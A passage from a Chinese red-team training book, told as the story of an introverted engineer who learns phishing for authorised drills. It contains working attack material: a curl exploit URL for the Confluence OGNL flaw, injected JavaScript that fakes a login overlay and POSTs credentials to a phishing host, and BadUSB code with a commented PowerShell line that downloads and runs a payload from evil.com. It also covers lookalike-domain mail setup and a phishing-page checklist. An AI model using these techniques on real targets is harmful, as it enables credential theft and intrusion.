  打开：87人（58.4%）
  点击：48人（32.2%）
  中招：38人

📊 18:00 - 收工
  打开：92人（61.7%）
  点击：52人（34.9%）
  中招：45人

📊 最终结果
  发送：150封
  送达：149封
  打开：92人（打开率 61.7%）
  点击：52人（点击率 34.9%）
  中招：45人（中招率 30.2%）
```

**45个人中招！30.2%的中招率！**

### 7.3 那一刻

小陈盯着屏幕上的数字，愣了好几秒。

**45个人。**

他写的邮件，他做的页面，骗到了45个人。

他不敢相信。

> 💡 **那一刻，小陈的心情：**
> ```
> 😲 第一反应：不敢相信
>   "真的假的？45个人？"
>   "我做的？"
>
> 😊 第二反应：激动
>   "成了！成了！"
>   "我终于做成了！"
>
> 😢 第三反应：想哭
>   "这两周没白熬..."
>   "原来我也可以..."
>
> 😎 第四反应：自信
>   "我做到了。"
>   "内向的人，也能做社工。"
>   "而且，我还能做得更好。"
> ```

下午的复盘会上，老周看了数据，明显愣了一下。

> "30%？这么高？"

阿凯也不笑了，认真看了看小陈的钓鱼邮件和页面，沉默了一会儿，说：

> "小陈，可以啊。
> 这邮件写得...确实像那么回事。
> 那个VPN证书的借口，我都差点信了。
> 而且页面做得真好，我看了都分不出来是假的。"

小李也跟着说：

> "尤其是那个预填充用户名的设计，太细了。
> 用户一看到自己的用户名已经填好了，警惕性直接降一半。
> 这招高啊。"

老周点了点头：

> "不错，非常不错。
> 小陈，你这两周进步很大。
> 看来你是找到感觉了。
> 
> 这样，护网期间，钓鱼这块就交给你了。
> 你专门负责，需要什么资源直接提。"

小陈点了点头，虽然还是不太会说话，但眼里有了光。

**那天晚上，小陈在日记里写：**
```
📝 2024年7月XX日

今天，我做到了。

45个人中招，30%的中招率。

两周前，我做的钓鱼邮件，0个人中招。
两周后，30%的人中招。

这两周，我做了什么？
- 读了8本书
- 研究了Gophish和SET
- 学了邮件伪造（SPF/DKIM/DMARC）
- 做了3个钓鱼页面
- 改了不下20版邮件模板

原来，内向不是借口。
原来，社恐也能做社工。
原来，被逼到绝路，真的能重生。

我好像...找到了自己的方向。

社工钓鱼，不需要面对面交流。
它需要的是：
- 理解人性（我敏感，能共情）
- 设计话术（我会写，逻辑强）
- 制作页面（我细腻，注意细节）
- 搭建平台（我是技术出身）
- 反复优化（我耐得住寂寞）

这些，都是我的强项。

原来，我的"缺点"，换一个地方就是"优点"。

今天，我第一次觉得，内向也挺好的。
```

> 🎉 **这是一个里程碑。**
> 从0%到30%，不仅是数字的变化，更是一个人的蜕变。
> 小陈终于找到了自己的价值所在。
> 但他知道，这只是开始。
> 后面，还有更高级的技巧等着他去研究。

---

## 🌊 更进一步：高级社工技巧

### 8.1 水坑攻击

第一次成功后，小陈没有满足。

他开始研究更高级的社工技巧。第一个就是——**水坑攻击**。

> 📌 **什么是水坑攻击？**
> 水坑攻击（Watering Hole Attack）：
> 不直接攻击目标，而是攻击目标经常访问的网站。
> 就像猎人不直接追猎物，而是在水坑边埋伏——因为猎物一定会来喝水。
>
> 例子：
> - 目标公司的员工，经常访问某个技术论坛
> - 攻击者入侵这个论坛，植入恶意代码
> - 员工访问论坛时，被植入木马
> - 攻击者通过木马，控制员工电脑

**图125-6 水坑攻击原理**


**水坑攻击 vs 钓鱼攻击：**
```
📊 水坑攻击和钓鱼攻击的对比：

【钓鱼攻击】
- 攻击者主动发邮件，引诱用户点击
- 用户需要"上当"才会中招
- 防御：提高安全意识，识别钓鱼邮件

【水坑攻击】
- 攻击者入侵用户常去的网站
- 用户只是正常访问网站，就会中招
- 防御：保持系统/浏览器更新，安装杀软
- 更难防御，因为用户没有"做错"任何事

【水坑攻击的优势】
- 更隐蔽（用户无感知）
- 更精准（针对特定人群）
- 更难防御（不依赖用户犯错）
- 更持久（网站不被发现，持续感染）

【水坑攻击的劣势】
- 难度高（要先入侵网站）
- 成本高（要研究0day或Nday）
- 不确定性大（网站可能修复漏洞）
```

**小陈的水坑攻击研究笔记：**
```
📝 水坑攻击实操（护网演练版）：

【场景】
公司员工经常访问一个内部技术Wiki（wiki.company.com）
这个Wiki是用Confluence搭的，版本比较旧

【攻击思路】
1. 找到Confluence的已知漏洞（CVE-2022-26134）
2. 利用漏洞，在Wiki页面植入恶意JS
3. 员工访问Wiki时，JS执行，跳转到钓鱼页面
   或者直接利用浏览器漏洞植入木马

【实操（简化版）】
# 第一步：确认Confluence版本
curl -s https://wiki.company.com | grep -i "confluence"
# 结果：Atlassian Confluence 7.4.17

# 第二步：查找已知漏洞
# CVE-2022-26134：OGNL注入漏洞，可RCE
# 影响范围：Confluence Server 7.4.x

# 第三步：利用漏洞（POC）
# 这个漏洞可以通过URL直接执行命令
curl "https://wiki.company.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%29%29.%7D/"

# 第四步：植入恶意JS
# 在Wiki的某个页面，注入一段JS
# 当其他员工访问这个页面时，JS会执行

# 植入的JS代码（简化版）：
# 这段JS会偷偷加载一个钓鱼页面
<script>
// 伪装成"会话过期"提示
var overlay = document.createElement('div');
overlay.style.cssText = 'position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.5);z-index:9999;display:flex;justify-content:center;align-items:center;';
overlay.innerHTML = `
    <div style="background:#fff;padding:30px;border-radius:8px;width:360px;text-align:center;">
        <h3>会话已过期</h3>
        <p>您的登录会话已过期，请重新登录</p>
        <input type="text" id="username" placeholder="用户名" style="width:100%;padding:10px;margin:10px 0;">
        <input type="password" id="password" placeholder="密码" style="width:100%;padding:10px;margin:10px 0;">
        <button onclick="submitCreds()" style="width:100%;padding:10px;background:#1890ff;color:#fff;border:none;border-radius:4px;">重新登录</button>
    </div>
`;
document.body.appendChild(overlay);

function submitCreds() {
    var u = document.getElementById('username').value;
    var p = document.getElementById('password').value;
    // 发到钓鱼服务器
    fetch('https://phish.company-update.com/capture', {
        method: 'POST',
        body: JSON.stringify({username: u, password: p, source: 'watering_hole'}),
        headers: {'Content-Type': 'application/json'}
    }).then(function() {
        // 移除遮罩，用户以为登录成功了
        document.body.removeChild(overlay);
    });
}
</script>
```

> 💡 **水坑攻击的关键：**
> 1. **找到目标常去的网站**（内部Wiki、行业论坛、工具网站）
> 2. **找到网站的漏洞**（CMS漏洞、中间件漏洞）
> 3. **植入恶意代码**（JS、Flash、iframe）
> 4. **等待目标访问**（被动攻击，更隐蔽）
>
> 这种攻击方式，比钓鱼邮件更难防御。
> 因为用户没有"做错"任何事，只是正常访问网站。

### 8.2 U盘钓鱼

第二个高级技巧——**U盘钓鱼**。

> 📌 **什么是U盘钓鱼？**
> 在U盘里放恶意文件，或者用BadUSB，扔在目标公司附近。
> 捡到U盘的人，好奇心驱使，会插到电脑上看。
> 然后就中招了。
>
> 这个方法听起来很low，但效果出奇的好。
> 因为人的好奇心，是最大的弱点。

**U盘钓鱼的几种方式：**
```
🔌 U盘钓鱼的方式：

方式1：普通U盘 + 恶意文件
   - 在U盘里放一个"诱惑性"文件
   - 比如"2024年薪资调整方案.xlsx"
   - 比如"公司内部通讯录.docx"
   - 文件里植入木马/宏病毒
   - 用户打开文件，木马执行

方式2：BadUSB
   - U盘其实是键盘（HID设备）
   - 插上后，自动"打字"，执行命令
   - 比如自动打开PowerShell，下载木马
   - 这种方式，杀软很难防

方式3：U盘 + 自动运行
   - 利用Windows的自动运行功能（autorun.inf）
   - 插上U盘自动执行恶意程序
   - 不过现代Windows默认禁用了autorun

方式4：U盘 + 快捷方式漏洞
   - 利用LNK文件漏洞
   - 比如CVE-2017-8464（LNK远程代码执行）
   - 看起来是普通的快捷方式，点击就中招
```

**小陈的U盘钓鱼方案（演练版）：**
```
📋 U盘钓鱼演练方案：

【准备】
- 买10个普通U盘（8G，看起来正常）
- 准备"诱饵文件"
- 准备"木马"（演练用，只是弹个提示框，不真搞破坏）

【诱饵文件设计】
文件名要"诱人"，让人忍不住点开：
1. "2024年Q2绩效奖金明细.xlsx"  → 钱，最诱人
2. "公司高管薪资一览表.docx"    → 八卦，好奇
3. "裁员名单-内部.xlsx"          → 恐惧，关心自己
4. "新员工通讯录（含照片）.xlsx" → 社交，好奇
5. "XX项目源代码.zip"            → 技术，想看

【木马设计（演练版）】
用Python写一个"假木马"：
- 文件名：绩效奖金计算器.exe（用pyinstaller打包）
- 图标：Excel图标（伪装成Excel文件）
- 功能：弹一个框"这是一个U盘钓鱼演练，您已中招。请联系IT部门。"
- 不做任何破坏性操作

【投放】
- 在公司几个地方"丢"U盘：
  * 茶水间
  * 电梯口
  * 前台
  * 停车场
  * 卫生间
- 等着员工捡到并插入电脑

【统计】
- 看看有多少人插U盘
- 看看有多少人点开文件
- 看看有多少人联系IT部门（正确做法）
```

**BadUSB的原理和代码：**
```arduino
// BadUSB代码示例（Arduino语法）
// 用Arduino Leonardo或Digispark制作
// 插入电脑后，自动"打字"执行命令

#include "Keyboard.h"

void setup() {
    // 初始化键盘
    Keyboard.begin();
    delay(1000);
    
    // Windows: 打开运行框
    Keyboard.press(KEY_LEFT_GUI);  // Win键
    Keyboard.press('r');           // R键
    Keyboard.releaseAll();
    delay(500);
    
    // 输入cmd，打开命令行
    Keyboard.print("cmd");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);
    
    // 在cmd里执行命令
    // 演练版：只是弹个框
    Keyboard.print("mshta javascript:alert(\"U盘钓鱼演练！您已中招，请联系IT部门。\");close()");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    
    // 真实攻击版（注释掉，只是演示）：
    // Keyboard.print("powershell -windowstyle hidden IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')");
    // Keyboard.press(KEY_RETURN);
    // Keyboard.releaseAll();
    
    Keyboard.end();
}

void loop() {
    // 不需要循环
}
```

> 🎯 **U盘钓鱼的效果有多好？**
> 有研究表明，捡到U盘的人里，**超过50%**会插到电脑上看。
> 如果U盘上贴着"机密"标签，这个比例会**更高**——因为好奇心更强。
>
> 小陈的演练结果：
> - 投放了10个U盘
> - 7个被捡走
> - 5个被插到电脑上
> - 4个人点开了文件
> - 1个人联系了IT部门
>
> 中招率：4/7 = **57%**
> 比30%的邮件钓鱼还要高！

### 8.3 二维码钓鱼

第三个高级技巧——**二维码钓鱼**。

> 📌 **什么是二维码钓鱼？**
> 把钓鱼链接，做成二维码。
> 用户扫码后，跳转到钓鱼页面。
> 因为二维码看起来"无害"，用户警惕性低。
>
> 而且手机屏幕小，URL不容易看清，更容易上当。

**二维码钓鱼的常见场景：**
```
📱 二维码钓鱼的场景：

场景1：假WiFi二维码
   - 在咖啡厅/会议室贴一个二维码
   - 标注"免费WiFi"
   - 扫码后跳转到"WiFi登录"页面
   - 输入手机号+密码，被钓鱼

场景2：假活动二维码
   - 在电梯/海报上贴二维码
   - 标注"扫码领红包""扫码投票"
   - 扫码后跳转到钓鱼页面

场景3：假支付二维码
   - 替换商家的收款二维码
   - 钱进了攻击者的账户

场景4：假内部系统二维码
   - 伪装成"扫码登录OA"
   - 伪装成"扫码签到"
   - 扫码后跳转到钓鱼页面

场景5：邮件里的二维码
   - 钓鱼邮件里不放链接，放二维码
   - "扫码查看详情"
   - 手机扫码，跳转到钓鱼页面
   - 手机上更难识别钓鱼
```

**小陈的二维码钓鱼方案：**
```
📋 二维码钓鱼演练方案：

【思路】
公司茶水间贴了一个"扫码点餐"二维码
小陈做了个假的，覆盖上去

【制作过程】

# 第一步：生成钓鱼二维码
# 用Python的qrcode库
pip install qrcode

import qrcode

# 钓鱼链接
phish_url = "https://oa.company-update.com/login?source=qrcode"

# 生成二维码
qr = qrcode.QRCode(version=1, box_size=10, border=4)
qr.add_data(phish_url)
qr.make(fit=True)

img = qr.make_image(fill_color="black", back_color="white")
img.save("phish_qrcode.png")

# 第二步：打印二维码
# 打印成和真实点餐二维码一样的大小
# 贴在真实二维码上面（或者旁边）

# 第三步：等待员工扫码
# 员工扫码后，跳转到钓鱼页面
# 钓鱼页面伪装成"点餐系统登录"
# 输入账号密码，被钓鱼
```

**图125-7 二维码钓鱼流程**


> 💡 **二维码钓鱼为什么有效？**
> 1. **扫码已成习惯**：大家每天都扫码（支付、点餐、签到），本能反应
> 2. **二维码不可读**：人眼无法识别二维码里的内容，只能扫了才知道
> 3. **手机防护弱**：手机上的安全防护，通常比电脑弱
> 4. **URL不易看清**：手机屏幕小，地址栏可能被隐藏
> 5. **心理戒备低**：相比"点击陌生链接"，"扫码"看起来更"安全"

### 8.4 更多高级技巧

除了上面三个，小陈还研究了一些其他的高级社工技巧：

```
🎯 更多高级社工技巧：

1. 鱼叉式钓鱼（Spear Phishing）
   - 针对特定个人，定制化钓鱼
   - 基于社工画像，设计专属钓鱼邮件
   - 成功率远高于群发钓鱼
   - 例子：知道王主任儿子要高考，发"高考志愿填报讲座"邮件

2. 捕鲸攻击（Whaling）
   - 针对高管（"大鱼"）的钓鱼
   - 高管权限大，价值高
   - 但高管警惕性也高，需要更精细的设计
   - 例子：伪装成CEO发邮件给CFO，要求转账

3. 商业邮件欺诈（BEC）
   - 伪装成供应商/合作伙伴，发邮件给财务
   - "请把这次的货款打到我新账户"
   - 财务一打钱，钱就没了
   - 这种攻击损失最大，动辄几百万

4. 语音钓鱼（Vishing）
   - 电话钓鱼
   - 伪装成客服、IT、领导打电话
   - "我是IT部的，需要你配合做一下账号验证"
   - 小陈做不了这个（社恐），但知道原理

5. 短信钓鱼（Smishing）
   - 短信里带钓鱼链接
   - "您的快递无法投递，请点击链接确认"
   - "您的账号存在异常，请点击链接处理"

6. 物理社工
   - 假装快递员/维修工混进公司
   - 在会议室留钓鱼U盘
   - 在墙上贴钓鱼二维码
   - 接入恶意设备到网络接口
```

---

## 📚 案例讲解

### 案例1：从0%到30%，小陈做对了什么？

**背景**：
小陈的第一次钓鱼，0%中招。第二次钓鱼，30%中招。这两次之间，他做了什么？

**对比分析：**
```
📊 第一次 vs 第二次对比：

【邮件设计】
第一次：
  - 主题："密码即将过期，请立即修改"
  - 语气：机器化、生硬
  - 排版：纯文本，无格式
  - 问题：一看就是机器发的，不可信

第二次：
  - 主题："【重要】VPN证书将于今晚24:00过期"
  - 语气：模仿IT部门正式通知
  - 排版：HTML邮件，有Logo、按钮、版权信息
  - 改进：看起来像真的IT通知

【钓鱼链接】
第一次：
  - http://10.0.0.123/password-reset
  - 内网IP，一看就有问题
  - 没有HTTPS

第二次：
  - https://oa.company-update.com/login
  - 相似域名，看起来正常
  - 有HTTPS，证书合法
  - 链接带用户名参数，自动填充

【钓鱼页面】
第一次：
  - 简陋的HTML，蓝底白字
  - 没有Logo
  - 没有真实系统的样子

第二次：
  - 100%克隆OA登录页
  - Logo、字体、颜色、布局完全一致
  - 有loading效果、错误提示
  - 提交后跳转真实页面

【邮件送达】
第一次：
  - 用内网IP直接发
  - 大量被网关拦截
  - 送达率低

第二次：
  - 用自己的域名+邮件服务器
  - 配置了SPF/DKIM/DMARC
  - 申请了合法证书
  - 送达率高

【目标选择】
第一次：
  - 全公司500人
  - 包括IT部门（警惕性高）
  - 包括高管（影响大）

第二次：
  - 研发+产品150人
  - 不含IT部门
  - 普通员工，更接近真实场景

【发送时机】
第一次：
  - 周五下午（心思不在工作上）

第二次：
  - 周三上午10点（最忙的时候，没时间细看）
```

**核心改进：**
```
1. 技术层面
   - 搭建自己的邮件服务器
   - 配置SPF/DKIM/DMARC
   - 注册相似域名
   - 申请合法证书
   → 解决了"送达率"问题

2. 内容层面
   - 学习心理学，理解人性
   - 邮件模板反复打磨
   - 话术符合业务场景
   → 解决了"可信度"问题

3. 页面层面
   - 100%克隆真实页面
   - 注意每一个细节
   - 提供流畅的用户体验
   → 解决了"中招率"问题

4. 策略层面
   - 选对目标人群
   - 选对发送时机
   - 预填充用户名
   → 解决了"转化率"问题
```

---

### 案例2：邮件伪造实战——SPF/DKIM/DMARC绕过

**背景**：
小陈要发钓鱼邮件，但目标的邮件系统有SPF/DKIM/DMARC三层认证。怎么绕过？

**方案：注册相似域名**

```
📋 详细步骤：

【目标】
- 目标域名：company.com
- 目标邮件系统：mail.company.com
- 配置了SPF/DKIM/DMARC

【方案】
注册相似域名，配置自己的邮件认证

【第一步：注册域名】
- 注册：company-update.com（年费约60元）
- 选择看起来"正常"的域名
  * company-update.com → 像系统更新
  * company-mail.com → 像邮件系统
  * company-it.com → 像IT部门
  * company-portal.com → 像门户

【第二步：配置DNS】
# A记录：指向你的钓鱼服务器
company-update.com.    IN A   1.2.3.4
oa.company-update.com. IN A   1.2.3.4
mail.company-update.com. IN A 1.2.3.4

# MX记录：邮件服务器
company-update.com.    IN MX  10 mail.company-update.com.

# SPF记录
company-update.com.    IN TXT "v=spf1 ip4:1.2.3.4 -all"

# DKIM记录（用opendkim生成）
default._domainkey.company-update.com. IN TXT "v=DKIM1; k=rsa; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQ..."

# DMARC记录
_dmarc.company-update.com. IN TXT "v=DMARC1; p=none; rua=mailto:dmarc@company-update.com"

【第三步：搭建邮件服务器】
# 安装Postfix
sudo apt install postfix

# 安装OpenDKIM
sudo apt install opendkim opendkim-tools

# 配置Postfix和OpenDKIM联动
# （具体配置略，网上有很多教程）

# 测试发送
swaks --to test@company.com \
      --from it-support@company-update.com \
      --server mail.company-update.com

# 检查邮件头，确认SPF/DKIM/DMARC都通过
```

**为什么这个方案有效？**
```
✅ 方案有效性分析：

1. SPF通过
   - 发件IP是1.2.3.4（你的服务器）
   - company-update.com的SPF记录允许这个IP
   - SPF检查通过

2. DKIM通过
   - 邮件用你自己的私钥签名
   - 收件方查你的DKIM公钥（DNS）
   - 验证签名通过
   - DKIM检查通过

3. DMARC通过
   - SPF和DKIM都通过
   - DMARC策略是p=none（放行）
   - DMARC检查通过

4. 用户视角
   - 收到邮件，发件人是"XX科技·IT服务台 <it-support@company-update.com>"
   - 仔细看域名是company-update.com，不是company.com
   - 但大多数人不仔细看，以为就是公司的
   - 邮件不进垃圾箱，到达收件箱
```

---

### 案例3：钓鱼页面制作——细节清单

**背景**：
小陈的钓鱼页面做到了95%的还原度。他总结了一份"细节清单"。

**钓鱼页面制作的细节清单：**
```
📋 钓鱼页面细节清单（checklist）：

【视觉细节】
□ Logo——和真实页面一致（大小、位置、清晰度）
□ 主色调——和真实页面一致
□ 字体——和真实页面一致（字号、行高、字重）
□ 间距——和真实页面一致（输入框间距、按钮间距）
□ 圆角——和真实页面一致（输入框圆角、按钮圆角）
□ 阴影——和真实页面一致（卡片阴影、按钮阴影）
□ 背景——和真实页面一致（纯色/渐变/图片）
□ 图标——和真实页面一致（搜索、用户、锁等图标）

【布局细节】
□ 整体布局——和真实页面一致（居中/左右/上下）
□ 表单位置——和真实页面一致
□ 按钮位置——和真实页面一致
□ 链接位置——和真实页面一致（"忘记密码""注册"）
□ 页脚信息——和真实页面一致（版权信息、备案号）

【交互细节】
□ 输入框placeholder——和真实页面一致
□ 输入框focus效果——和真实页面一致（边框变色）
□ 按钮hover效果——和真实页面一致
□ 按钮点击效果——和真实页面一致
□ "记住密码"勾选框——和真实页面一致
□ 错误提示——和真实页面一致（位置、颜色、文字）

【行为细节】
□ 提交后显示"登录中..."（loading效果）
□ 提交后显示"用户名或密码错误"（错误提示）
□ 延迟后跳转到真实页面
□ URL带参数时自动填充用户名
□ 自动聚焦到密码框（如果用户名已填充）

【技术细节】
□ HTTPS（必须有）
□ 合法证书（Let's Encrypt免费申请）
□ 域名看起来正常（相似域名）
□ 表单action指向钓鱼服务器
□ JS捕获账号密码
□ 不触发浏览器的"钓鱼网站警告"

【心理细节】
□ 页面加载速度要快（不要让人等待）
□ 不要有错别字
□ 不要有"不专业"的元素
□ 版权信息的年份要正确
□ 版本号要合理（不要v99.9这种）
```

> 💡 **小陈说：**
> "做钓鱼页面，要把自己当成'造假者'。
> 造假最怕什么？怕细节。
> 一个细节不对，就会被人识破。
> 所以，每一个细节都要抠。
> 这正是内向者擅长的——关注细节。"

---

## ✏️ 课后习题

### 选择题（10道）

1. 小陈第一次钓鱼失败的主要原因是？
   - A. 邮件内容像机器人，钓鱼页面简陋
   - B. 没有用Gophish
   - C. 目标人群不对
   - D. 没有U盘

2. 社会工程学的核心是什么？
   - A. 技术手段
   - B. 理解人性
   - C. 工具使用
   - D. 话术技巧

3. 以下哪个不是西奥迪尼的影响力六原则？
   - A. 互惠
   - B. 权威
   - C. 稀缺
   - D. 暴力

4. Gophish是一个什么工具？
   - A. 漏洞扫描器
   - B. 钓鱼攻击模拟平台
   - C. 密码破解工具
   - D. 内网渗透框架

5. SPF的作用是？
   - A. 验证邮件内容未被篡改
   - B. 指定哪些IP可以为域名发邮件
   - C. 告诉收件方如何处理失败的邮件
   - D. 加密邮件内容

6. DKIM使用什么技术验证邮件？
   - A. 对称加密
   - B. 非对称加密（公钥/私钥签名）
   - C. 哈希算法
   - D. Base64编码

7. 水坑攻击的特点是？
   - A. 直接攻击目标
   - B. 攻击目标常访问的网站
   - C. 发送钓鱼邮件
   - D. 打电话骗人

8. BadUSB的原理是？
   - A. 伪装成键盘，自动输入命令
   - B. 伪装成U盘，自动运行程序
   - C. 伪装成鼠标，自动点击
   - D. 伪装成网卡，劫持流量

9. 二维码钓鱼有效的核心原因是？
   - A. 二维码可以绕过防火墙
   - B. 扫码已成习惯，警惕性低
   - C. 二维码可以携带病毒
   - D. 手机无法识别钓鱼

10. 小陈从0%到30%的成功，最关键的转变是？
    - A. 换了更好的工具
    - B. 理解了心理学和技术结合
    - C. 找到了更好的目标
    - D. 运气好

### 填空题（10道）

1. 社会工程学的圣经是______写的《______》。

2. 影响力的六大原则是：______、______、______、______、______、______。

3. 人类的三大数据弱点是：______、______、______。

4. Gophish是用______语言写的开源______平台。

5. SET的全称是______，中文意思是______。

6. 邮件三大认证机制是：______、______、______。

7. 小陈绕过邮件认证的方法是注册______域名，配置自己的______。

8. 水坑攻击的名字来源于猎人埋伏在______边等待猎物。

9. BadUSB伪装成______设备，插入后自动______。

10. 小陈第一次钓鱼中招率是______，第二次是______。

### 简答题（5道）

1. 为什么说"内向者也能做社工钓鱼"？内向者在社工方面有哪些优势？

2. 简述SPF、DKIM、DMARC三个邮件认证机制的原理和作用。

3. 钓鱼邮件的送达率为什么重要？如何提高钓鱼邮件的送达率？

4. 什么是水坑攻击？它和钓鱼攻击有什么区别？

5. 制作一个逼真的钓鱼页面，需要注意哪些细节？（至少写10条）

### 实操题（3道）

1. 在自己的测试环境中，安装Gophish，创建一个钓鱼活动，尝试向自己的邮箱发送一封测试钓鱼邮件。（注意：只能在授权环境下操作）

2. 用Python写一个简单的"凭证接收服务器"，能接收POST请求，并把提交的账号密码记录到文件里。

3. 用qrcode库生成一个二维码，扫码后跳转到你自己的测试页面。思考：如果要做二维码钓鱼演练，需要注意哪些伦理和法律问题？

---

## 📝 本章小结

- 社工钓鱼不需要外向，反而需要细腻和逻辑——内向者的优势
- 社会工程学的核心是理解人性，不是骗术
- 影响力六原则：互惠、承诺一致、社会认同、喜好、权威、稀缺
- 人类三大弱点：恐惧、贪婪、好奇
- 钓鱼攻击的目标是激活对方的"系统1"（直觉反应）
- Gophish是开源钓鱼平台，能管理模板、人群、活动、统计
- SET是社会工程学工具包，能一键克隆网页、生成Payload
- 邮件三大认证：SPF（IP授权）、DKIM（签名验证）、DMARC（策略）
- 绕过邮件认证的方法：注册相似域名，配置自己的认证
- 钓鱼页面要100%还原真实页面，细节决定成败
- 第一次成功的钓鱼：30%中招率，关键在于技术+心理学结合
- 水坑攻击：攻击目标常访问的网站，更隐蔽
- U盘钓鱼：利用好奇心，中招率可达50%+
- 二维码钓鱼：利用扫码习惯，手机端更难识别
- 小陈的成长：从社恐透明人，到社工钓鱼核心成员

---

## 🔗 相关链接

- [⬅️ 上一章：编程菜鸟到免杀大佬（下）](/redteam/day124-story-编程菜鸟到免杀大佬下)
- [➡️ 下一章：内向技术宅到社工钓鱼大师（下）](/redteam/day126-story-内向技术宅到社工钓鱼大师下)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)

---

## 🔮 下篇预告

> 小陈的故事，才刚刚开始。
>
> 在下篇中，你将看到：
> - 小陈研究**Evilginx2中间人钓鱼**，能绕过双因素认证
> - 设计**鱼叉式钓鱼**，针对高管的精准打击
> - 研究**免杀Payload**，让木马绕过杀软
> - 护网实战中，用钓鱼打穿了防守方
> - 内向的小陈，第一次在百人大会上分享经验
> - 从"透明人"到"团队核心"的完整蜕变
> - **一个关于自信、关于成长、关于找到自己的故事**
>
> 故事还很长，我们下篇见。
